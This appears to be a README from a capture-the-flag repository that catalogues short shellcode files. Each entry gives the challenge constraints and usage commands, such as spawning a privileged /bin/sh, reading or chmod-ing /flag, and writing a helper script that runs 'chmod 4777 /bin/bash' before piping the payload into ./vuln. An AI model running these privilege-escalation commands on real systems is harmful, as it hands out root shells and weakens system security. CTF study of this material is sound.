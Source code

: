 ## Shellcodes

1. shellcode.105-59.s

    - avoid 0x48 in shellcode
    - `setuid` + `execve`

2. shellcode.59.s

    - if you cannot use syscall, sysenter, int
    - `execve("/bin//sh", ["/bin//sh", "-p", NULL], NULL)`

3. shellcode.2-0-1-60.s

    - open,read,write /flag

4. shellcode.90-60.s

    - chmod 777 /flag

5. shellcode.2-0-2-1.s

    - if u cannot use 0,1,2 file descriptors

6. shellcode.90.s
    
    - need to create symbolic link called "f"
    - 13 bytes long shellcode that helps u to read flag
    - don't worry if it shows u segfault error it still works

7. shellcode.59(2).s
    
    - echo -ne "#!/bin/bash -p\n/bin/bash -p" > f
    - 13 bytes long shellcode
    - (cat shellcode-raw;cat) | ./vuln

8. shellcode.105-59(2).s

    - echo -ne "#!/bin/bash\n/bin/bash" > f
    - 10 int3 instructions overwrite my shellcode after 10 bytes
    - gcc -nostdlib -static -z execstack shellcode.105-59(2).s -o shellcode
    - objcopy --dump-section .text=shellcode-raw shellcode
    - (cat shellcode-raw;cat) | ./vuln

9. shellcode.59(3).s

    - echo -ne "#!/bin/bash\nchmod 4777 /bin/bash" > f
    - all bytes are unique
    - 14 bytes long

10. shellcode.59(3).s

    - echo -ne "#!/bin/bash\nchmod 4777 /bin/bash" > f
    - 12 bytes long